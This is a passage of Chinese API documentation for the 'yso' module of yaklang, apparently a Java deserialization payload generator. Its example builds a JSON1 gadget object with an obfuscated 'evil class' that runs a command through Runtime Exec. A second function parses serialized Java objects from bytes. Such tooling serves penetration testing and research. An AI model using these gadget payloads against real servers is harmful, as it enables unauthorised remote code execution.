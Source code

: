 - `r1` : *JavaObject，成功时返回生成的Java对象
- `r2` : error，成功时为nil，失败时返回相应错误

## 示例代码

### 基础用法

生成一个Java对象，使用Runtime Exec方法执行命令，并指定恶意类的名称

```yaklang
command = 'whoami'
className = 'KEsBXTRS'
gadgetObj,err = yso.GetJSON1JavaObject(

	yso.useRuntimeExecEvilClass(command), // 使用Runtime Exec方法执行命令
	yso.obfuscationClassConstantPool(),
	yso.evilClassName(className) // 指定恶意类的名称

)
```

## 41. `yso.GetJavaObjectFromBytes`

## 功能描述

从字节数组中解析并返回第一个Java对象。

## 参数说明

```
func GetJavaObjectFromBytes(byt []byte) => (*JavaObject, error)
```

**请求参数**

- `byt` : 要解析的字节数组。

**返回类型**

- `r1` : 成功时返回第一个Java对象。
- `r2` : 失败时返回相应错误。

## 示例代码

### 基础用法

从字节中解析Java对象

```yaklang
raw := "rO0..." // base64 Java serialized object
bytes = codec.DecodeBase64(raw)~ // base64解码
javaObject, err := yso.GetJavaObjectFromBytes(bytes) // 从字节中解析Java对象
```
